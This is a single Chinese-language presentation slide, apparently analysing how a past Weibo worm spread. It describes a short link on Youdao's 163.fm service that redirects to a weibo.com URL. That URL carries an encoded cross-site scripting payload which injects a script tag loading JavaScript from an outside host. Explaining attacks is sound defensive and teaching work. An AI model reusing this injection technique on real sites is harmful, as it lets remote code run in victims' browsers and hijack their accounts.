

# 病毒运行原理
2、使用有道提供的短域名服务（这些网址目前已经“无害”）；
例如，通过 http://163.fm/PxZHoxn ，将链接指向：
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update